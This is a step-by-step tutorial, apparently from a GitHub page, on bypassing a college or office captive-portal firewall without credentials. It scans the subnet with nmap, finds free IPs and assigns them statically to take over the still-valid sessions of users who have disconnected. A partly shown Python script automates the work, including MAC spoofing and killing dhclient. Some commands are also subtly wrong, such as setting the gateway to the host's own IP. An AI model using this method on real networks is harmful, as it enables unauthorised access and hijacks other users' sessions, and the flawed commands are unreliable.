Let me be clear this is a simple hack , **you can try it to bypass your firewall even with administrator account** but to use it you have to be a little bit techie .

So , this hack requires following things :-

1. [python interpreter](https://www.python.org/) ( i.e. python 2.7 or later also but u have to tinker with it yourself ).
2. A Linux Terminal ( i.e. a Linux box or it can be in [virtual box](https://www.virtualbox.org/) also ).
3. A Network scanner [NMAP](https://nmap.org/download.html)'s zenmap ( for Linux , windows and mac  ) and [PingTools](https://play.google.com/store/apps/details?id=ua.com.streamsoft.pingtools) for Android 
and some patience .

Note :- Don't worry if you don't have any of these things be with me . I have a hack for these also .

**You can do it in android , windows and  mac also and without python also . Just be with me and soon you will be able to bypass your firewall ( without username and password  ) .**

Okay let me be clear at this point what kind of firewall i am talking about .

It is just a simple firewall/complex firewall which shows you login page when you connects to your collage/office network either by lan or wifi .

A sample login page is shown below :-



**Note :- You must be either connected to WIFI or LAN . Then only You are able to bypass firewall .**

 So lets go under the hood :-

<div class="divider"></div>

## STEP 1 :-  
#### Most of the networks use [DHCP](https://en.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol)  protocol to configure all of its hosts . Basically one or more dedicated DHCP server are usually present in  network to provide their client devices with a dynamic IP addresses .  
So when you connect to the network using WIFI , under the hood your device's default network manager broadcasts a request for dynamic IP address ( DHCP request ) to all devices present in the network .  
But only a authentic DHCP server will be able to reply .  
Note :-  All rouge/fake DHCP servers may not be able to reply to this kind of requests because the intermediate switches can be configured to snooping trust .  
more on DHCP [here](https://www.youtube.com/watch?v=g7mroO_BLD0) .

<div class="divider"></div>

## STEP 2 :-
#### Now comes the most Interesting part of our hack , We can also set our [IP address as static](https://www.lifewire.com/what-is-a-static-ip-address-2626012) . But that IP address must be available to use i.e. that IP address must not be taken by another host ( i.e. either by using DHCP  os static ) in that network .  
And this piece of information we will be using in our this hack . We will be searching for an IP address that is free ( i.e. not in use by any host ) and assign that IP address to our network card .  
You can assign a static IP to your network card by following this image in windows :- 



Linux users can assign static IP address using this command :-
```
sudo ifconfig wlp6s0 192.168.2.15 netmask 255.255.255.0 up
sudo route add default gw 192.168.2.15 wlp6s0
sudo echo '8.8.8.8' > /etc/resolv.conf\
```
note:- wlp6s0 is the name of network card .
Mac users follow these steps :-
```
Apple menu -> Preferences ->  Network -> WiFi -> Advanced -> TCP/IP  
and then configure it for manual . And assign IP as shown in windows image.
```
Then
note :- Configure DNS also for  mac as shown in windows image .
Android Users follow these steps :-
```
Settings -> WLAN ( or WIFI )
then select your network and then
```


Note :- IP address configurations shown above are randomly selected for example purposes . You should select IP configuration according to your network ( Discussed in next point  ) .

<div class="divider"></div>

## STEP 3 :-
#### Before using this Zenmap we need to find IP configuration for our device .
Linux users follow these commands :-

**note :- Don't worry I have hidden some of the parameters .**
Windows users follow these steps : -

Mac users can follow these steps :-
```
Apple menu -> Preferences ->  Network -> WiFi -> Advanced -> TCP/IP 
Or 
Can use Terminal Similarly as we used in Linux above .
```
Android and IPhone users can use following method :-
```
Settings -> WLAN ( or WIFI )  
then select your network and then
```

**Ok .  
Note for Android/Iphone users :-   You can see DNS server address by Clicking on static option and then changing it back to dynamic option.**  
As you can see in all these cases we have three things IP address , netmask  address and DNS server address .
Note down these 3 addresses we will use these latter . Now we have to calculate Network address with CIDR to proceed.  
##### TO calculate network address with CIDR you can  [this](http://mxtoolbox.com/SubnetCalculator.aspx) website .
Or you can calculate it manually .  
***Note : -***  
Just convert IP address and Netmask address  into binary equivalent 32 bit and then AND them ( binary operation ) bitwise you will get a new 32 bit binary number and convert it in four octets that will be your network address .
```
for ex :-
Address:   192.168.0.1           11000000.10101000.00000000 .00000001
Netmask:   255.255.255.0 = 24    11111111.11111111.11111111 .00000000
Network:   192.168.0.0/24        11000000.10101000.00000000 .00000000
```
**Ok .**  
Now we are one step away from bypassing the firewall and getting the administrative access .

<div class="divider"></div>

## Step 4 :-
#### In this step we have to determine which IP address to use . We will do this using by zenmap in Linux , windows and Mac and Ping Tools for android   devices .  
( Iphone users can download similar tool from their app store ) .  
Now we will scan  our network using pingtools Or zenmap ( or Nmap command in terminal  )  :-  
Linux users can follow this command :-  
```
nmap -T4 -F 10.10.254.0/24 
```



Linux , windows and Mac users can use Zenmap in following way :-



Android users can use Pingtools in following way :-





So we will get these kind of responses but be patient , it might take some time depending on your network .  
**Note:-**  
Select your own network address we just calculated in last step  ( at the place of 10.10.254.0/24 ). 

<div class="divider"></div>

## STEP 5:-
#### As you can see there are some IP addresses that are missing from the output list . Save your Ouput now. These missing IP addresses are actually free IP addresses that are not currently being used by any device .  
And Now start picking up these free IP addresses one by one and statically assign them to your network card as we discussed in point 2 .  
**Note :-**  
All other information would be same that we calculated in point 3 except the IP address . 
i.e. DNS , Gateway and Netmask wouldn't change .  
Now lets check for internet connectivity we might have already bypassed firewall .  
So to check internet connectivity we will follow these steps :-  
on linux and mac :-  

```
Terminal -> ping 8.8.8.8 -c4
```



on Windows :-  

```
windows + r ( run Program )  -> ping 8.8.8.8  -t
```


on android :-  
_use pingtools_   





If you get same Output as above then congrats you have bypassed the firewall and from here on you can enjoy your internet .  
But if you want administer level access ( i.e.  You can open any website without restriction  ) you have to keep trying those free IPs .

**Note :-** 
```  
 Only if you get same output as above then only you can go for administer  
level check. I mean if you have bypassed firewall then only you can try to open  
that website which is restricted for you in browser . If that opens then congo! you  
got administer level bypass. 
```

** What to do if you wouldn't get same output ?**  
Don't worry keep on trying all those free IPS , you will definitely bypass the firewall . ( repeat this step until you get free Internet access ).

<div class="divider"></div>

## STEP 6 :-
Now lets understand how we bypassed firewall in last step .  
To get this we have to understand how firewall works . So basically ,**when a user logins into firewall , he will be assigned some session time for which , he have access to internet . When that fixed session time expires your firewall will ask you again for login .**  
Usually every firewall binds that session time with the IP address of the user who logged in correctly .  
**What happens if that user turns off his device or detaches from that  network . Then that  IP address might have some session time left with it . So in last step , we just searched for how many users have left the network  by looking at those free IP addresses . And we statically assigned that IP address to ourselves so that we can utilize that session time for our use . And for firewall we are still that guy who logged in .**  
#### Note:-  
when we assigned a static IP address to ourselves then we don't need to query the DHCP server so, DHCP server will never get to know about such an IP address .( an IP address which was assigned dynamically initially from the IP address pool but later used statically ).  
So it may happen that the same user connects to network and try to use that IP address again which it previously had . In this case either he or couldn't properly access the internet.  
But you don't have to worry because if this happened by any chance then , you still have many of free IPs left with you . And you will be able to access  the internet again .  

<div class="divider"></div>

### I know its very time consuming . Don't worry I have fully automated python script for you . Its time to do some neat stuff .


## [code](https://github.com/mohitrajain/firewall_byPass_python_script)
```
#!/usr/bin/env python

import subprocess
import sys

def execute(cmd):
    Command=subprocess.Popen(cmd,stdout=subprocess.PIPE,stderr=subprocess.STDOUT,shell=True)
    (out, err)=Command.communicate()
    if err:
        print(err)
        exit(1)
    return out

if len(sys.argv)<=2 :
    print('Arguments : interface  , ESSID , [ mac address ] ')
    exit(1)
else :
    interface = sys.argv[1]
    ESSID = sys.argv[2]
    mac = '00:00:00:00:00:66'

leases_file = '/var/lib/dhclient/dhclient.leases'

# connecting to wifi and setting up mac

execute('ifconfig ' + interface  + ' down')
execute('ifconfig ' + interface  + ' hw ether ' + mac + ' up')
execute('iwconfig ' +  interface + ' ESSID ' + ESSID )

# checking gor wifi connectivity
out = execute('iwconfig '+  interface + ' | grep LINK')
if len(out) == 0:
    print('Wifi could not be reached ')


# killing dhclient
try:
    execute('dhclient -r ' + interface)
    execute('killall dhclient ')
except:
    print('killed dhclient')

# taking a dynamic ip to get info about all open ip
execute('dhclient ' + interface)

gateway = execute('grep routers ' + leases_file).split('\n')[-2].split()[-1][:-1]
print(gateway)

# our interface ip assigned using dhcp
my_ip = execute('ifconfig ' +  interface + ' | grep -w inet').split()[1]

# calculation of network , netmask , broadcast and available ip addresses

interface_info = execute('ifconfig ' + interface + ' | grep inet').split()

netmask = interface_info[3]
bin_net = bin(int(netmask.split('.')[0]))[2:].zfill(8) + bin(int(netmask.split('.')[1]))[2:].zfill(8) + bin(int(netmask.split('.')[2]))[2:].zfill(8) + bin(int(netmask.split('.')[3]))[2:].zfill(8)
mask = bin_net.count('1')
print('netmask  ',netmask)

broadcast = interface_info[5]
bin_broadcast = bin(int(broadcast.split('.')[0]))[2:].zfill(8) + bin(int(broadcast.split('.')[1]))[2:].zfill(8) + bin(int(broadcast.split('.')[2]))[2:].zfill(8) + bin(int(broadcast.split('.')[3]))[2:].zfill(8)
print('broadcast',broadcast)

ip = interface_info[1]
bin_ip = bin(int(ip.split('.')[0]))[2:].zfill(8) + bin(int(ip.split('.')[1]))[2:].zfill(8) + bin(int(ip.split('.')[2]))[2:].zfill(8) + bin(int(ip.split('.')[3]))[2:].zfill(8)
print('ip',ip)

super = pow(2,32) - 1
num_ip = super - int(bin_net,2)
